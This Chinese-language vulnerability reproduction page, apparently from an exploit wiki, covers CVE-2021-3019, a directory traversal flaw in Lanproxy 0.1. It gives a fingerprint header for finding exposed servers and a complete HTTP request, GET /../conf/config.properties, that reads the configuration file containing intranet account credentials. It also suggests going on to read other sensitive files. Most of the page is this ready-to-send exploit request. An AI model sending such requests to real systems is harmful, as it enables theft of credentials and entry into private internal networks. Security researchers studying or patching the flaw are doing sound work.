



# Lanproxy 目录遍历漏洞 CVE-2021-3019

## 漏洞描述

Lanproxy是一个将局域网个人电脑、服务器代理到公网的内网穿透工具，支持tcp流量转发，可支持任何tcp上层协议（访问内网网站、本地支付接口调试、ssh访问、远程桌面等等）本次Lanproxy 路径遍历漏洞 (CVE-2021-3019)通过../绕过读取任意文件。该漏洞允许目录遍历读取/../conf/config.properties来获取到内部网连接的凭据。

## 漏洞影响

<a-checkbox checked>Lanproxy 0.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>header= "Server: LPS-0.1"</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://github.com/ffay/lanproxy/</a-checkbox></br>

## 漏洞复现

打开登录页面如下


使用Burp抓包发送如下请求

```html
GET /../conf/config.properties HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```


成功在配置文件中读取 账号密码





试着读取其他敏感文件








